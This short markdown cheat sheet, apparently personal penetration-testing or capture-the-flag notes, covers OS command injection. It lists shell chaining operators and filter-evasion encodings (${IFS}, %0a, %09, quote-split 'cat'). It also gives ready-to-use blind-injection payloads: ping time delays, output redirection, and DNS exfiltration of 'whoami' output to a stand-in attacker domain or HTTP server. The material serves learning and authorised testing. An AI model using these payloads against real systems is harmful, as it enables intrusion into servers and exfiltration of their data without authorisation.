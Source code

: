 ```
&       --> execute if previous command was successful
||      --> execute if previous commmand failed
;       --> execute despite the conidition
()      --> subshell


${IFS}
%0a --> \n
%09 --> \t
c'a't%09i'n'd"e"x.php
```

- You may have blind OS command injection, so think of using time-delays or ping. `& ping -c 10 127.0.0.1 &`
- Use output redirection if you can't see the output. `;ls > output.txt;`
- ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` exfiltration or use http://reverse_server/?o=output



> [!NOTE] **DON'T FORGET**
> ALWAYS put something at the end of your command --> ; ping 10.10.16.94 **;** <-- don't forget this ending 
